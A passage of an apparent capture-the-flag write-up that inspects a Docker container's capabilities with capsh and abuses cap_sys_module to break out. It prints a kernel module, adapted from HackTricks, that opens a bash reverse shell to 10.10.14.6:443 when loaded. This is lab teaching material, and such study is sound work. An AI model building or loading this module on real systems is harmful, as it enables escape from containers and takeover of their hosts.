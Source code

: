 The hostname is a random 12 characters (as is typical for Docker containers) and there’s no root.txt.

`capsh` shows the privileges for the container:

```

root@5e5026ac6a81:/# capsh --print
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_audit_write,cap_setfcap=ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: !cap_dac_read_search,!cap_linux_immutable,!cap_net_broadcast,!cap_net_admin,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_rawio,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_mknod,!cap_lease,!cap_audit_control,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read,!cap_perfmon,!cap_bpf,!cap_checkpoint_restore
Securebits: 00/0x0/1'b0 (no-new-privs=0)
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=0(root)
Guessed mode: HYBRID (4)

```

### Kernel Module

#### Strategy

The most obviously exploitable capability in the `capsh` output is `cap_sys_module`, which allows the container to load and unload kernel modules.

A post form RedFox Security, [Exploiting Linux Capabilities: CAP\_SYS\_MODULE](https://redfoxsec.com/blog/exploiting-linux-capabilities-capsysmodule-exploits/), shows exactly how to create a kernel module that will return a reverse shell when run. HackTricks has [a section](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#cap_sys_module) on abusing this as well, and the “Example with environment (Docker breakout)” fits exactly here.

#### Exploit

I’ll grab the POC module / reverse shell from the HackTricks page and update it for host IP / port:

```

#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.6/443 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}
```